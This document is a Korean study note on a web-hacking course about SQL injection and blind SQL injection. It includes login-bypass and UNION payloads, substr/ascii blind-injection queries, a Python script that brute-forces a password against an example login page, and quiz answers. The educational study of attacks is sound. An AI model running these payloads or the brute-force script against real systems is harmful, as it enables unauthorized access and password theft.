






# SQL Injection

**SQL Injection** : DBMS에서 사용하는 **쿼리를 임의로 조작**해 데이터베이스의 **정보를 획득**하는 공격  
**인젝션 공격** : **이용자의 입력값**이 **구조**나 **문법적인 데이터**로 **해석**되어 발생하는 취약점


다음은 SQL Injection 의 예시다.

원래는 맨 위에 있는 것처럼 요청을 보내서 색깔을 지정한다.

그러나 **올바르지 않은 요청**을 보내서 **의도하지 않은 행위**(공장 가동 종료 등)를 하게 하는 것을 **인젝션** 이라고 한다.

## SQL Injection

웹 서비스에서 ID/PW 를 포함해서 **로그인**을 할 때, **게시글**의 제목과 내용을 적고 **게시**를 할 때, **ID/PW 나 제목/내용** 을 **SQL 구문**에 넣는다.

```SQL
/*
아래 쿼리 질의는 다음과 같은 의미를 가지고 있습니다.
- SELECT: 조회 명령어
- *: 테이블의 모든 컬럼 조회
- FROM accounts: accounts 테이블 에서 데이터를 조회할 것이라고 지정
- WHERE user_id='dreamhack' and user_pw='password': user_id 컬럼이 dreamhack이고, user_pw 컬럼이 password인 데이터로 범위 지정
즉, 이를 해석하면 DBMS에 저장된 accounts 테이블에서 이용자의 아이디가 dreamhack이고, 비밀번호가 password인 데이터를 조회
*/
SELECT * FROM accounts WHERE user_id='dreamhack' and user_pw='password'
```

위의 코드는 로그인 할 때, 질의하는 SQL 구문에 입력한 **id, pw 가 포함**된 것을 알 수 있다.  
-> 이처럼 SQL 구문에 임의 문자열을 삽입하는 행위를 **SQL Injection** 이라고 한다.

```SQL
/*
아래 쿼리 질의는 다음과 같은 의미를 가지고 있습니다.
- SELECT: 조회 명령어
- *: 테이블의 모든 컬럼 조회
- FROM accounts: accounts 테이블 에서 데이터를 조회할 것이라고 지정
- WHERE user_id='admin': user_id 컬럼이 admin인 데이터로 범위 지정
즉, 이를 해석하면 DBMS에 저장된 accounts 테이블에서 이용자의 아이디가 admin인 데이터를 조회
*/
SELECT * FROM accounts WHERE user_id='admin'
```

반면에 위의 코드는 SQL Injection 을 통해, id 가 admin 이면 계정 정보를 알 수 있게 조작했다.(**비밀번호 없이**)

## Simple SQL Injection(개정 이전 실습)

  

다음과 같이 데이터베이스 **user_table** 과 **login 하는 실습창**이 있다.

위와 같이 **uid, upw** 에 **guest** 를 적으면, 아래에 있는 **SQL 구문에 들어가는 것**을 볼 수 있다.

현재 admin 으로 로그인하고 싶은데 upw 를 몰라서 할 수 없다.

그러나, 이를 잘 이용해서 **upw를 확인하는 곳을 주석 처리**하면 **uid 가 admin 인 경우에 로그인** 할 수 있다.

참고로 주석은 --, #, /**/ 등이 있다.

  

다음과 같이 입력해서 upw 확인하는 곳을 주석 처리하면 로그인이 된다.

여기서 이 실습은 admin의 upw 을 알아내는 실습이다.

SQL 에는 **UNION** 이라는 연산자가 있다.

UNION 은 **두 개 이상의 결과 집합을 결합**한다.

즉, 앞에는 admin 에 대한 uid 를 조회하는 구문이므로 위에 admin에 대한 upw 를 조회하는 구문을 입력해 UNION 하면 된다.

  

그래서 공격 쿼리문을 **admin' UNION Select upw from user_table where uid='admin'--** 과 같이 적었다.

그 결과 SQL 구문이 **Select uid from user_table where uid='admin' UNION Select upw from user_table where uid='admin'--' and upw='12345'** 로 변했다.  

따라서 SQL 구문이 **Select uid from user_table where uid='admin' UNION Select upw from user_table where uid='admin'** 이고, admin 의 upw 인 **strawberry** 가 나온 것을 알 수 있다.

## Blind SQL Injection

  

**Blind SQL Injection** 는 위에 있는 그림처럼 DBMS 의 **질의 결과**를 이용자가 화면에서 직접 **확인하지 못할 때 참/거짓 반환 결과**로 **데이터를 획득**하는 공격 기법이다.

## Blind SQL Injection 예시

### substr

**substr** : 입력받은 **문자열에서 지정한 위치부터 길이까지의 값**을 가져오는 함수

```SQL
substr(string, position, length)
substr('ABCD', 1, 1) = 'A'
substr('ABCD', 2, 2) = 'BC'
```
위와 같이 substr을 통해 특정 위치의 값을 질의해서 참/거짓을 통해 Blind SQL Injection을 할 수 있다.

```SQL
# 첫 번째 글자 구하기
SELECT * FROM user_table WHERE uid='admin' and substr(upw,1,1)='a'-- ' and upw=''; # False
SELECT * FROM user_table WHERE uid='admin' and substr(upw,1,1)='b'-- ' and upw=''; # True
# 두 번째 글자 구하기
SELECT * FROM user_table WHERE uid='admin' and substr(upw,2,1)='d'-- ' and upw=''; # False
SELECT * FROM user_table WHERE uid='admin' and substr(upw,2,1)='e'-- ' and upw=''; # True 
```

**substr** 을 통해 위와 같이 **Blind SQL Injection 공격 쿼리**를 만들 수 있다.  

2, 3번째 줄을 보면, upw의 첫번째 문자가 a, b 인지 물어본다.  
그리고 5, 6번째 줄을 보면, upw의 두 번째 문자가 d, e 인지 물어본다.

이 뿐만 아니라 다른 내장 함수도 이용할 수 있다.

**ascii** : 입력받은 **문자를 아스키 코드로** 반환하는 함수

```SQL
# 첫 번째 글자 구하기 (아스키 114 = 'r', 115 = 's')
SELECT * FROM user_table WHERE uid='admin' and ascii(substr(upw,1,1))='114'-- ' and upw=''; # False
SELECT * FROM user_table WHERE uid='admin' and ascii(substr(upw,1,1))='115'-- ' and upw=''; # True

# 두 번째 글자 구하기 (아스키 115 = 's', 116 = 't')
SELECT * FROM user_table WHERE uid='admin' and ascii(substr(upw,2,1))='115'-- ' and upw=''; # False
SELECT * FROM user_table WHERE uid='admin' and ascii(substr(upw,2,1))='116'-- ' and upw=''; # True 
```

이전과 똑같지만, 문자로 물어보는 것이 아니라 **아스키코드**로 질의하는 것이다.

2, 3번째 줄을 보면, upw의 첫번째 문자가 r, s 인지 물어본다.  
그리고 6, 7번째 줄을 보면, upw의 두 번째 문자가 s, t 인지 물어본다.

## SQL Injection 실습

**추후에 작성**

## Blind SQL Injection 공격 스크립트

Blind SQL Injection은 **한 바이트씩 비교**하여 공격하는 방식이기 때문에 **많은 시간**이 걸린다.

이 때, 파이썬에서 **requests** 라는 라이브러리를 통해 좀 더 수월하게 할 수 있다.

```python
import requests
url = 'https://dreamhack.io/'
headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'DREAMHACK_REQUEST'
}
params = {
    'test': 1,
}
for i in range(1, 5):
    c = requests.get(url + str(i), headers=headers, params=params)
    print(c.request.url)
    print(c.text)
```

위의 코드는 **GET 메소드**를 이용하는 방식으로 10번째 줄에서 for문을 통해 자동으로 질의를 할 수 있다.

```python
import requests
url = 'https://dreamhack.io/'
headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'DREAMHACK_REQUEST'
}
data = {
    'test': 1,
}
for i in range(1, 5):
    c = requests.post(url + str(i), headers=headers, data=data)
    print(c.text)
```

위의 코드도 마찬가지이고, **POST 메소드**를 이용한다.

## Blind SQL Injection 스트립트 작성

```python
#!/usr/bin/python3
import requests
import string
# example URL
url = 'http://example.com/login'
params = {
    'uid': '',
    'upw': ''
}
# ascii printables(비밀번호의 범위 : 알파벳, 숫자, 특수 문자)
# abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~
tc = string.printable
# 사용할 SQL Injection 쿼리
query = '''admin' and substr(upw,{idx},1)='{val}'-- '''
password = ''
# 비밀번호 길이는 20자 이하라 가정
for idx in range(0, 20):
    for ch in tc:
        # query를 이용하여 Blind SQL Injection 시도
        params['uid'] = query.format(idx=idx+1, val=ch).strip("\n")
        c = requests.get(url, params=params)
        print(c.request.url)
        # 응답에 Login success 문자열이 있으면 해당 문자를 password 변수에 저장
        if c.text.find("Login success") != -1:
            password += ch
            break
print(f"Password is {password}")
```

비밀번호를 알아내기 위해 Blind SQL Injection 을 하기 위해 위와 같이 코드를 짤 수 있다.

먼저 비밀번호는 **알파벳과 숫자, 특수 문자**로 이뤄진다.  
아스키 범위로 나타내면 **32부터 126까지**의 모든 문자이다.

**for idx in range(0, 20):** 를 보면, 20자리 이하의 비밀번호를 찾을건데, **params['uid'] = query.format(idx=idx+1, val=ord(ch)).strip("\n")** 를 통해 query를 계속 바꿔서 Blind SQL Injection 을 한다.

그래서 로그인에 성공하면, password 를 보여준다.(자료 내에 실제로 비밀번호는 출력하지 않았음)

```bash
$ python3 bsqli.py
http://example.com/login?uid=admin%27+and+substr%28upw%2C1%2C1%29%3D%270%27--+&upw=
http://example.com/login?uid=admin%27+and+substr%28upw%2C1%2C1%29%3D%271%27--+&upw=
http://example.com/login?uid=admin%27+and+substr%28upw%2C1%2C1%29%3D%272%27--+&upw=
http://example.com/login?uid=admin%27+and+substr%28upw%2C1%2C1%29%3D%273%27--+&upw=
http://example.com/login?uid=admin%27+and+substr%28upw%2C1%2C1%29%3D%274%27--+&upw=
```

참고로 %27은 **'** 를 의미해서 %270%27 은 '0' 을 의미한다. 그런 식으로 0 ~ 4 까지 request를 한 예시이다.(https://www.w3schools.com/tags/ref_urlencode.ASP)

# 마치며

## 마치며

-  **SQL Injection**: **SQL 쿼리**에 이용자의 **입력 값을 삽입**해 이용자가 **원하는 쿼리를 실행**할 수 있는 취약점
-  **Blind SQL Injection**: 데이터베이스 조회 후 **결과를 직접적으로 확인할 수 없는 경우 사용**할 수 있는 SQL injection 공격 기법

# 퀴즈

```SQL
SELECT * FROM accounts QHERE user_id='admin'  and user_pw='(A)'
```

1. 다음 SQL Query의 (A) 부분에 입력 값을 넣을 수 있다고 할 때, id가 admin 계정으로 로그인이 가능한 SQL Injection 페이로드를 모두 고르시오.  
답 : ``' or 1=1-- 1``, ``'+(select user_pw from accounts where user_id='admin')+'``

2. 실습 모듈에서 획득한 admin의 비밀번호는 (A) 입니다. (A)에 들어갈 말로 올바른 것은?  
답 : ``strawberry``

3. 다음 중 일반적인 상황에서 SQL Injection으로 할 수 없는 행위를 고르시오. (MySQL 기준)  
답 : ``내부망 침투하기``